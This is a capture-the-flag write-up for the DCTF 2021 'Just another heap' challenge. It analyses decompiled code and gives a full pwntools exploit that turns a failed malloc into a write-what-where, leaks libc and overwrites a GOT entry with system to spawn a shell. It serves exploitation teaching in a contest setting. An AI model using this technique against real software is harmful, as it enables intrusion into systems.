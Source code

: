 # DCTF 2021

## Just another heap

> 500
> 
> There are so many ways you can pwn this.
> 
> `nc dctf-chall-just-another-heap.westeurope.azurecontainer.io 7481`
>
> [just\_another\_heap](just_another_heap) [Dockerfile](Dockerfile)

Tags: _pwn_ _x86-64_ _malloc_ _null-pointer_ _heap_ _heap-not_ _write-what-where_ _got-overwrite_


## Summary

IMHO, the simplest [portable] way to pwn this was to use a null-pointer + offset to _write-what-where_ the GOT.


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

All of the pointers to the heap are in global arrays; the _no-PIE_ will be helpful for that; same goes for the GOT as well (Partial RELRO = GOT vulnerable to overwrite).

### Decompile with Ghidra

> All naming done by hand, there was nothing for free here (except libc labels).

```c
      puts("name:");
      uVar2 = local_38;
      pvVar3 = malloc(0x20);
      *(void **)(&memory_name_ptr_00602260 + uVar2 * 8) = pvVar3;
      prompt_fgets(*(undefined8 *)(&memory_name_ptr_00602260 + local_38 * 8),0x10);
      lVar1 = *(long *)(&memory_name_ptr_00602260 + local_38 * 8);
      sVar4 = strcspn(*(char **)(&memory_name_ptr_00602260 + local_38 * 8),"\n");
      *(undefined *)(sVar4 + lVar1) = 0;
      puts("How long is your memory");
      prompt_lu(&local_48);
      local_30 = malloc(local_48);
      puts("Sometimes our memories fade and we only remember parts of them.");
      prompt_lu(&local_40);
      puts("Would you like to leave some space at the beginning in case you remember later?");
      if (local_48 < local_40) {
        puts("Invalid offset");
      }
      else {
        if (local_30 != (void *)0x0) {
          local_4c = 0;
          while ((ulong)(long)local_4c < local_40) {
            *(undefined *)((long)local_30 + (long)local_4c) = 0x5f;
            local_4c = local_4c + 1;
          }
        }
        local_30 = (void *)((long)local_30 + local_40);
        fflush(stdin);
        puts("What would you like to write");
        prompt_fgets(local_30,local_48 - local_40);
        puts("Would you say this memory is important to you? [Y/N]");
        prompt_fgets(local_24,2);
```

This section of the `create` function contains the _write-what-where_ that we'll use to setup a libc leak as well as overwrite the GOT for a shell.

The `local_30 = malloc(local_48);` statement with a sufficiently large input (`local_48`) will fail and end up as zero (null), with the only check for this an initialization section (`if (local_30 != (void *)0x0) {`).

The `prompt_lu(&local_40);` statement sets our offset and is then used to compute the target address with: `local_30 = (void *)((long)local_30 + local_40);`.  The only input validation is `local_48 < local_40`; the length of the initial length must be greater than the offset (both inputs are `unsigned long`).

With this, we can set the length (`local_48`) to `2**64 - 1`, and `malloc` will quietly fail setting `local_30` to `0`.  This ends up with `local_40` containing the target location to overwrite.  We have our _where_.

The _what_ is provided by: `prompt_fgets(local_30,local_48 - local_40);`.  `prompt_fgets` is just a frontend to `fgets`, however we need to leverage that `int param_2`:

```c
void prompt_fgets(char *param_1,int param_2)
{
  printf("> ");
  fgets(param_1,param_2,stdin);
  return;
}
```

The `local_48 - local_40` passed to `fgets` is problematic, if `local_48` is very large [to get `malloc` to return a null], and `local_40` is relatively small (a valid address, say in the GOT (`0x600000` range)), then the difference will be very large, `fgets` will call `malloc` and that `malloc` will fail as well.

To get a reasonable [small] input for `fgets` we need to find the right value of `local_48` reduced by `local_40` then _anded_ with `0xffffffff` (this is the `int param_2` from `prompt_fgets`; we are calling a function with an `unsigned long` as an input, however the function is expecting an `int` (32-bit), so we can assume only the lower 32-bits will be used).

```python
2**64 - (2**32 - target) + size)
```

You can work out the math yourself, but this will properly set `local_48` and `local_40` so that `malloc` nulls out, leaving our target address in `local_40` to satisfy the _where_ (`local_30 = (void *)((long)local_30 + local_40);`), and `local_48 - local_40` will just end up something like `0xffffffff0000000a` that when reduced to 32-bits by `prompt_fgets` will be a `size` of `0xa` in this example.

We have our _what_, now we just need a leak.

```c
      pvVar3 = malloc(0x20);
      *(void **)(&memory_name_ptr_00602260 + uVar2 * 8) = pvVar3;
      prompt_fgets(*(undefined8 *)(&memory_name_ptr_00602260 + local_38 * 8),0x10);
```

At the start of `create` we're prompted for a _name_ that is malloc'd and then the pointer stored in a global array based at `0x602260`.

To leak libc all we need to do is use our _write-what-where_ to change that pointer to point to some place in the GOT or BSS to pickup a libc leak.  The `list` function emits the names and therefore our leak.

> The libc version was provided in the form of a `Dockerfile`.  I've included it (`libc.so.6`) as part of this writeup since a future update to Ubuntu 18.04 may change the version of libc.

## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./just_another_heap')
binary.symbols['names'] = 0x602260

if args.REMOTE:
    p = remote('dctf-chall-just-another-heap.westeurope.azurecontainer.io', 7481)
    libc = ELF('./libc.so.6')
else:
    import signal
    p = process(('stdbuf -i0 -o0 -e0 '+binary.path).split(),preexec_fn=lambda: signal.signal(signal.SIGALRM, signal.SIG_IGN))
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
```

Standard pwntools setup, however I added the symbol `names`, and have my local process ignoring SIGALRM.

> No `setvbuf` in challenge binary, so I had to prepend `stdbuf`.

```python
p.sendlineafter('> ','1')
p.sendlineafter('> ','0')
p.sendlineafter('> ','blah')
p.sendlineafter('> ',str(2**64 - (2**32 - binary.sym.names) + 10))
p.sendlineafter('> ',str(binary.sym.names))
p.sendlineafter('> ',p64(binary.got.puts))
p.sendlineafter('> ','N')
p.sendlineafter('> ','N')
p.sendlineafter('> ','5')

p.recvuntil('0: ')
puts = u64(p.recv(6) + b'\0\0')
log.info('puts: ' + hex(puts))
libc.address = puts - libc.sym.puts
log.info('libc.address: ' + hex(libc.address))
```

Based on the analysis above this should be fairly clear.  Just add an entry, name it `blah`, but immediately overwrite its pointer with the location of GOT `puts`, then `list` (`5`) and capture the leak.

```python
p.sendlineafter('> ','1')
p.sendlineafter('> ','1')
p.sendlineafter('> ','blah')
p.sendlineafter('> ',str(2**64 - (2**32 - binary.got.strcspn) + 10))
p.sendlineafter('> ',str(binary.got.strcspn))
p.sendlineafter('> ',p64(libc.sym.system))
p.sendlineafter('> ','N')
p.sendlineafter('> ','N')
```

Same as the previous, but this time change `strcspn` to `system` in the GOT.

```python
p.sendlineafter('> ','1')
p.sendlineafter('> ','2')
p.sendlineafter('> ','/bin/sh')
p.interactive()
```

Finally, create a 3rd memory, but the `strcspn` that was used to replace the `\n` with `\0` is now `system`, so just ask for a shell as your _name_.

Output:

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/dctf2021/just_another_heap/just_another_heap'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to dctf-chall-just-another-heap.westeurope.azurecontainer.io on port 7481: Done
[*] '/pwd/datajerk/dctf2021/just_another_heap/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] puts: 0x7fd942288aa0
[*] libc.address: 0x7fd942208000
[*] Switching to interactive mode
$ id
uid=1000(pilot) gid=1000(pilot) groups=1000(pilot)
$ cat flag.txt
dctf{I_h4V3_0_id3a_h0W_y0u_G0T_h3r3}
```
